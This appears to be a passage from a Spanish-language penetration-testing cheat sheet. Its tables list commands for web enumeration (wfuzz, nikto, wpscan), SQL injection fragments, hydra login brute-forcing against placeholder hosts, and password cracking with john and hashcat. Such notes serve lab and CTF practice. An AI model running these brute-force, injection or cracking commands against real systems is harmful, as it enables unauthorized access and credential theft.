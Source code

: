 |`dirbuster vhost -r -u domain.com -w list_subdominios.txt`|
|**wfuzz**|
|`wfuzz -c -w /opt/wordlists/SecLists/Discovery/web-Content/IIS.fuzz.txt  --hc 404 -u http://10.10.10.10/FUZZ`|
|`wfuzz -c --hc 404 -t 200 -u http://domain.com/ -w /usr/share/dirb/wordlists/common.txt -H "Host: FUZZ.domain.com" `|
|**sublist3r**|
|`sublist3r -d doamin.com`|
|**Nikto**|
|`nikto -host http://10.10.10.10`|
|`nikto -host http://10.10.10.10 -port 8080`|
|**wpscan**|
|`wpscan --url http://10.10.10.10 --enumerate u`|
|`wpscan --url domain.com -e vp --plugins-detection mixed --api-token <api token>`|
|`wpscan --url domain.com -e u --passwords /usr/share/wordlists/rockyou.txt`|
|`wpscan --url domain.com -U admin -P /usr/share/wordlists/rockyou.txt`|
|**SQLinjection**|
|`OR 1=1 -- -`|
|` ORDER BY 1-- `|
|`whoami' UNION SELECT 1,2,3--`|

# Fuerza bruta

| **Comando**   | 
| --------------|
| **hydra** |
|`hydra -L users.txt -P /usr/share/wordlist/rockyou.txt ejemplo.com http /admin/`|
|`hydra -L users.txt -P /usr/share/wordlists/rockyou.txt example.com http-post "/admin.php:username=^USER^&password=^PASS^:Incorrect username or password."`|
|`hydra -l admin  -P /usr/share/wordlists/rockyou.txt example.com http-post "/admin.php:username=admin&password=^PASS^:Incorrect username or password."`|
|`hydra -l admin -P /usr/share/wordlists/rockyou.txt example.com https-post-form "/login.php:username=^USER^&password=^PASS^&login=Login:Not allowed:H=Cookie\: PHPSESSID=<value>"`|
|**john**|
|`ssh2john id_rsa > crack.hash`|
|`zip2john prueba.zip > crack.hash`|
|`john --wordlist=/usr/share/wordlist/rockyou.txt crack.hash`|
|**hashcat**|
|`hashcat -m TYPE -a 0 crack.hash diccionario.txt`|
|`hashcat -m 1000 -a -0 crack.hash rockyou-10.txt`|
